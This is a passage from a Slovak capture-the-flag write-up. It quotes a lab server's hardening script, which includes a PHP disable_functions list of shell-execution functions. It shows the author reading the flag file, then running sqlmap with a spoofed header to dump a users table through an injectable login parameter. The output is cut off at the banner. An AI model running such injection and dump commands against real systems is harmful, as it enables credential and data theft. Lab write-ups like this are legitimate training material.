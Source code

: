 ```bash
disable_functions = exec,passthru,system,proc_open,popen,pcntl_exec
__EOF__

cat << __EOF__ > /etc/mysql/mariadb.conf.d/99-filepriv.cnf
[mysqld]
secure_file_priv='/var/www/html/app/uploads'
__EOF__

cp /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
sed -i -e 's/SecRuleEngine DetectionOnly/SecRuleEngine On/g' /etc/modsecurity/modsecurity.conf
sed -i -e 's/SecAuditEngine RelevantOnly/SecAuditEngine Off/g' /etc/modsecurity/modsecurity.conf

#cat << __EOF__ >> /etc/modsecurity/modsecurity.conf
#SecDebugLogLevel 1
#__EOF__

mkdir -p /secrets
chown 0755 /secrets
echo ${WEBHOSTING_FLAG} > /secrets/flag.txt

unset -v WEB_ADMIN_PASS WEB_TEST_PASS DB_PASS WEBHOSTING_FLAG

#rm /entrypoint.sh
```

Vlajka by mala byť v `/secrets/flag.txt`.

```shell
www-data@3a00ff3adfc0:/$ cat /secrets/flag.txt
FLAG{BCba-VkYk-Kw3N-HFPw}
```

Ta dá!

Poznámka na koniec. Keby mi vlastne napadlo pozrieť entrypoint.sh ešte vtedy, keď som zobrazoval tie súbory, tak som si mohol ušetriť robotu 😃. Ale aspoň bolo viac zábavy.



Poznámka pod čiaru. Skúsil som aj SQL injection, ktorá sa spomína v logoch udalostí a skutočne je tam, parameter username v login formulári je zraniteľný. sqlmap je frajer😃. 

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u 'http://10.99.25.100:8000/app/login.php' \
  --data 'username=bla&password=blabla' \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36' \
  --headers='X-Forwarded-For: 203.0.113.10' \
  -p username \
  -D myapp \
  -T users \
  --dump
        ___
       __H__                                                                                                                                                                                                       
 ___ ___[.]_____ ___ ___  {1.9.3#stable}                                                                                                                                                                           
|_ -| . [(]     | .'| . |                                                                                                                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                          
```